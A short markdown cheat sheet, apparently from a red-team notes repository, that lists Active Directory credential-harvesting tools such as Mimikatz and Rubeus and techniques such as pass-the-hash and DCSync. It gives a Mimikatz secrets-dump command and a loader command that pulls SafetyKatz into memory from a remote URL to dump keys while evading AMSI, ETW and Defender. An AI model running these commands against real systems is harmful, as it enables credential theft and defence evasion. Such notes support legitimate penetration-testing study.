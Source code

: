 ## Active Directory Credential Harvesting (Tools of the trade)
- Mimikatz
- SafetyKatz
- BetterSafetykatz
- Rubeus 
- FlangVik NetLoader (This is not credential harvesting tool, this rather works as a container to host a process to bypass AMSI and ETW which helps in avoiding detection of credentail harvesting tools) 

## Active Directory Credential Harvesting (Techniques)
- Credential Capture
    - `lsadump::secrets` Service Account clear-text passwords 
- Over-Pass The Hash
- Pass The Ticket
- DCSync
- Bypassing AMSI and ETW via FlangVik NetLoader
    - `Loader.exe -path http://127.0.0.1/SafetyKatz.exe sekurlsa::ekeys exit` (Assuming port forwarding is set, here SafetyKatz.exe is downloaded in memory from remote source, command are executed afterwards. Without port forwrding also works, but Windows Defender behavioural detection would block the download. Hence, it is advised to setup [port forwarding](AD_LateralMovement.md) before)